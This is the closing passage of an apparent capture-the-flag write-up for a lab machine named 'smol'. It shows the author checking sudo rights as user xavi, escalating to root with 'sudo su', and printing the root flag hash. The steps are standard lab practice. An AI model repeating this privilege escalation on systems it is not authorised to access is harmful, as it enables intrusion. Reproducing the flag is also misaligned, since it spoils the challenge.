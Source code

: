 -> Switching user's to xavi in ssh, and then running ```sudo -l```

```
xavi@smol:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL

```

-> Turns out xavi is a very privileged user.

```
xavi@smol:~$ sudo su
root@smol:/home/xavi$ cd /root
root@smol:~$ cat root.txt
bf89ea3ea01992353aef1f576214d4e4
```

-> With that, we have the final flag for this room, root.txt
